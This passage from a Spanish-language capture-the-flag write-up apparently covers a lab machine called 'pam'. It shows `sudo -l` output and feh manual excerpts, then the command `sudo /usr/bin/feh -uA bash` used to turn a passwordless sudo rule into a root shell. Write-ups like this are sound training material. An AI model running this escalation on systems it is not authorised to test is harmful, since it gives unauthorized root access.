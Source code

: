  Una vez ya nos hemos convertido en el usuario italia podemos leer la flag user.

 ## Escalada de Privilegios

 Para leer la flag root debemos escalar privilegios y como de costumbre comienzo enumerando posibles vectores de escalada de privilegios.

 ```bash
italia@pam:/$ sudo -l
Matching Defaults entries for italia on pam:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User italia may run the following commands on pam:
    (ALL : ALL) NOPASSWD: /usr/bin/feh
 ```

 Podemos ejecutar el binario feh sin contraseña, usaremos este binario para escalar los privilegios.

 Solo debemos buscar la forma...

 Leyendo en el manual del binario feh encuentro varios parámetros que podrían servirme:

 ```bash
-A, --action [flag][[title]]action

             Specify a shell command as an action to perform on the image.

 -u, --unloadable

             Don't display images.  Just print out their names if imlib2 can

             NOT successfully load them.  Returns false if at least one image

             was loadable.
```                         

```bash
italia@pam:/$ sudo /usr/bin/feh -uA bash
./initrd.img
root@pam:/# id
uid=0(root) gid=0(root) grupos=0(root)
root@pam:/# whoami
root
```

Y listo, ya somos root.

> ¡¡¡PERO EXISTE UN PROBLEMA!!!
